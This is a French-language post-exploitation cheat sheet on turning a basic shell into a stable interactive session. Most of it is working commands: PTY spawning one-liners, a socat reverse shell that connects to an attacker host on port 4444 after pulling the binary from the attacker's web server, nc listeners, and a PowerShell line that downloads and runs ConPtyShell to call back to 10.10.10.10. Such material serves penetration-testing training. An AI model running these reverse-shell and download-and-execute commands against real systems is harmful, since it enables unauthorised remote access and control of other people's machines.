 # Amélioration des Shells

Les shells initiaux sont souvent limités et instables. Cette section couvre les techniques pour transformer un shell basique en session interactive complète.
## Problèmes Courants des Shells Initiaux

Les shells obtenus après exploitation présentent souvent ces limitations:
- Absence d'historique de commandes
- Pas de complétion tab
- Pas de contrôle des processus (CTRL+C termine la session)
- Gestion limitée des caractères spéciaux
- Interface non interactive
- Manque de fonctionnalités du terminal
## Obtention d'un Shell TTY
### Linux/Unix
#### Python PTY
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
# ou avec Python3
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
#### Script
```bash
script -qc /bin/bash /dev/null
```
#### Autres méthodes
```bash
# Perl
perl -e 'exec "/bin/bash";'

# Ruby
ruby -e 'exec "/bin/bash"'

# Lua
lua -e 'os.execute("/bin/bash")'

# AWK
awk 'BEGIN {system("/bin/bash")}'

# Find
find / -name example -exec /bin/bash \; -quit
```
## Stabilisation Complète du Shell

### Méthode 1: Python + stty

```bash
# Étape 1: Obtenir un shell de base avec Python
python -c 'import pty; pty.spawn("/bin/bash")'

# Étape 2: Mettre en arrière-plan avec CTRL+Z
# [Presser CTRL+Z]

# Étape 3: Sur votre machine, vérifier et ajuster les paramètres du terminal
stty -a

# Étape 4: Configurer votre terminal local pour raw mode
stty raw -echo

# Étape 5: Revenir au shell distant
fg
[Presser Entrée deux fois]

# Étape 6: Configurer le terminal distant
export TERM=xterm
stty rows 38 columns 116
```
### Méthode 2: Socat
```bash
# Sur l'attaquant, préparer un binaire socat statique
wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat
chmod +x /tmp/socat

# Transférer le binaire vers la cible
# Par exemple avec un serveur web temporaire
python3 -m http.server 8000

# Sur la cible
wget http://IP_ATTAQUANT:8000/socat -O /tmp/socat
chmod +x /tmp/socat

# Créer un reverse shell TTY avec socat
/tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:IP_ATTAQUANT:4444

# Sur l'attaquant
socat file:`tty`,raw,echo=0 tcp-listen:4444
```
### Méthode 3: rlwrap (pour les shells instables)

```bash
# Installation sur l'attaquant
sudo apt install rlwrap

# Utilisation
rlwrap nc -lvnp 4444
```
## Amélioration des Shells Windows
### PowerShell à CMD et vice-versa
```powershell
# De PowerShell à CMD
cmd.exe

# De CMD à PowerShell
powershell.exe
```
### ConPtyShell (Windows 10/11)
[ConPtyShell](https://github.com/antonioCoco/ConPtyShell) offre un shell PTY complet sur les systèmes Windows modernes.

```bash
# Sur l'attaquant
stty raw -echo; (stty size; cat) | nc -lvnp 4444

# Sur la cible Windows (PowerShell)
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.10.10.10 4444
```
### Windows Terminal (pour le confort)
Si vous avez accès à une session graphique sur Windows:

```powershell
# Vérifier si Windows Terminal est installé
Get-AppxPackage -Name Microsoft.WindowsTerminal

# Lancer Windows Terminal pour une meilleure expérience
wt.exe
```
## Configuration d'Environnement
Une fois le shell stabilisé, configurez l'environnement:

```bash
# Linux/Unix
export TERM=xterm-256color
export SHELL=bash
export EDITOR=vim   # ou nano

# Modifier le prompt pour plus de visibilité
export PS1='\[\033[01;31m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]\$ '
```
## Astuces pour la Gestion des Shells

| Problème | Solution |
|----------|----------|
| Session bloquée | Utiliser un autre terminal et redémarrer le listener |
| Accès limité | Essayer différentes techniques selon les binaires disponibles |
| Limitations de sorties | Rediriger les sorties vers des fichiers (`command > output.txt`) |
| Absence d'éditeur | Utiliser `echo`, `printf` ou `cat` pour créer/modifier des fichiers |
| Connexion instable | Configurer un script pour reconnexion automatique |
## Scripts Utiles pour l'Automatisation

```bash
# Script pour automatiser la stabilisation (à exécuter sur l'attaquant)
cat <<EOF > stabilize.sh
#!/bin/bash
echo "[*] Upgrading shell..."
echo "Exécutez ces commandes sur la cible après avoir obtenu un shell:"
echo "----------------------------------------------"
echo "python3 -c 'import pty; pty.spawn(\"/bin/bash\")'"
echo "Appuyez sur CTRL+Z pour mettre en arrière-plan"
echo "stty raw -echo; fg"
echo "export TERM=xterm"
echo "stty rows 38 columns 116"
echo "----------------------------------------------"
EOF
chmod +x stabilize.sh
```